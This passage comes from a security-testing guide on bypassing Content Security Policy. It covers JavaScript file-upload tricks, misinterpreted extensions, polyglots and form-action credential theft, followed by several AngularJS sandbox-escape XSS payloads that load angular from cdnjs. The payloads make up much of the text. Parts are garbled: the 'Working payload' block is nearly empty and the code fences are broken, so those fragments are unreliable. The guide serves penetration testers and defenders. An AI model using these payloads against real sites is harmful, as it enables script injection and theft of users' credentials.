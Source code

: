 ```
```
```
If you can upload a JS file you can bypass this CSP:

Working payload:

```html
"/>'>
```
```
However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using an extension accepted by the server (like: _script.png_) this won't be enough because some servers like apache server **select MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot ([[https://github.com/Polydet/polyglot-database)|some polyglot examples here]].

### Form-action

If not possible to inject JS, you could still try to exfiltrate for example credentials **injecting a form action** (and maybe expecting password managers to auto-fill passwords). You can find an [[https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp|**example in this report**]]. Also, notice that `default-src` does not cover form actions.

### Third Party Endpoints + ('unsafe-eval')

> [!WARNING]
> For some of the following payload **`unsafe-eval` is not even needed**.

```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```
```
Load a vulnerable version of angular and execute arbitrary JS:

```xml

{{'a'.constructor.prototype.charAt\=\[].join;$eval('x\=1} } };alert(1\);//');}}



"> {{$eval.constructor('alert(1\)')()}}



">
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>

With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/

<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```